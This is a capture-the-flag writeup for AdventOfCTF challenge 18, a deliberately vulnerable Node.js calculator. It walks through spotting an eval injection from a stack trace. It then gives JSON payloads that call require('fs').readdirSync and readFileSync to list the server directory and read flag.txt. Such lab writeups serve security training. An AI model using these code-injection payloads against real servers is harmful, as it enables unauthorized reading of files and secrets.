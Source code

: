 +++
author = "Maik de Kruif"
title = "Challenge 18 - AdventOfCTF"
date = 2021-01-06T23:04:52+01:00
description = "A writeup for challenge 18 of AdventOfCTF."
cover = "img/adventofctf/2020/be40bcd25e7487440a64b13cd32049b2.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1800

## Description

We created a calculator for Santa to figure out how many days until Christmas remain. It is not finished yet, it will only return what you give it. Sort of. The flag is in flag.txt.

Visit <https://18.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

## Finding the vulnerability

If we capture the request with a proxy like Burp, we can see it sends a `POST` request with some JSON data. It looks like this:

```json
{
  "calc": "3+4"
}
```

To find out how the calculator works internally we can try to send some data it doesn't expect to try to break it. An example would be sending an empty post request.

If we try that we get the following error back:

```text
TypeError: Cannot read property 'toString' of undefined
    at /opt/app/server.js:14:13
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
    at done (/opt/app/node_modules/raw-body/index.js:213:7)
    at IncomingMessage.onEnd (/opt/app/node_modules/raw-body/index.js:273:7)
    at IncomingMessage.emit (events.js:203:15)
    at endReadableNT (_stream_readable.js:1145:12)
    at process._tickCallback (internal/process/next_tick.js:63:19)
```

This hints at a NodeJS Express server, but it does not give us much information about the calculation besides a `toString` which would be unnecessary if the output would always be a number. This could hint at an `eval` vulnerability.

A NodeJS Express server often has a `res` variable to which the request result is written. Let's try to get it by entering it in de input field.

```json
{
  "calc": "res"
}
```

The result is `[object Object]` which means the input is evaluated.

## Exploit

Now we know the input is evaluated, we can try to read the flag. To find the file, let's try to list the directory contents.

In NodeJS we can do this by using the `fs` module and using the `readdirSync()` function. The resulting code would be `require('fs').readdirSync('.')`.

The resulting request:

```json
{
  "calc": "require('fs').readdirSync('.')"
}
```

This gives us the following result:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Now that we know the location of the flag (`flag.txt`), we can use the `readFileSync()` function to read the file:

```json
{
  "calc": "require('fs').readFileSync('flag.txt')"
}
```

## Solution

We got the flag! It is `NOVI{N3v3r_us3_eval}`.

